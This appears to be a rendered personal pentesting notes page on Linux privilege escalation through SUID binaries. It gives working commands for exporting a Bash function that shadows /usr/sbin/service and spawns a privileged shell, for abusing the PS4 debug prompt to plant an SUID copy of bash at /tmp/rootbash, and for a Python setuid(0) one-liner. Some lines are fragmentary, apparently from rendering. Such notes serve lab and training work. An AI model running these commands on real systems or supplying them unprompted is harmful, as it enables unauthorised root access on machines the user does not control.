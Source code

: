 ### Scaling Abusing shell

</div>


## Bash versions below `4.2-048`
- Define shell **functions** with **names** that **resemble** file paths
- then **export** those functions so that they are used **instead** of any actual **executable** at that file **path**.
- If we have an executable `strings /usr/local/bin/suid-env2`
`strings /usr/local/bin/suid-env2`
`/usr/sbin/service apache2 start`
- Create a Bash function with the name `usr/sbin/service` that executes a new Bash shell (using -p so permissions are preserved)
```shell
function /usr/sbin/service { /bin/bash -p; }
```
- export the function:
```shell
export -f /usr/sbin/service
```
- Run the executable
## Bash versions below `4.4`
-  If we have an executable 
- In debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.
- Run the executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
```shell
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
- Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```shell
/tmp/rootbash -p
```

</div></div>


### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### Python SUID

</div>


set to root
```shell
python3 -c 'import os; os.setuid(0); os.system("whoami")'
```
